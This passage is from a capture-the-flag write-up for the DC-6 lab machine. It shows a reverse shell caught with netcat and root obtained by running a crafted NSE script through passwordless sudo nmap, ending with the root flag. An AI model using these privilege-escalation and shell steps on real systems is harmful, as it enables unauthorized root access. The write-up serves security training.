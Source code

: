 ```console
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh
```

We have obtained a shell as user **jens**.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.187] 38108
jens@dc-6:/home/graham$
```

The jeans user has permissions to execute the nmap binary as root with no password.

```console
jens@dc-6:/home/graham$ sudo -l
sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:/home/graham$
```

An excellent guide to escalating privileges through this means you can found it in the [GTFOBINS](https://gtfobins.github.io/gtfobins/nmap/#sudo) cheat sheet.

Breaking down the nmap command, we create the **/tmp/shell** file that contains the instruction to execute an interactive **bash**, then through the NSE (Nmap Scripting Engine) it execute the **/tmp/shell** script that invokes a root shell.

```console
jens@dc-6:/home/graham$ echo 'os.execute("/bin/bash -i")' > /tmp/shell
echo 'os.execute("/bin/bash -i")' > /tmp/shell
jens@dc-6:/home/graham$ sudo nmap --script /tmp/shell
sudo nmap --script /tmp/shell

Starting Nmap 7.40 ( https://nmap.org ) at 2022-01-10 06:53 AEST
NSE: Warning: Loading '/tmp/shell' -- the recommended file extension is '.nse'.
root@dc-6:/home/graham#
```

We go to the root directory and read the flag.

```console
root@dc-6:/home/graham# cd /root
cd /root
root@dc-6:~# ls
ls
theflag.txt
root@dc-6:~# cat theflag.txt
cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

```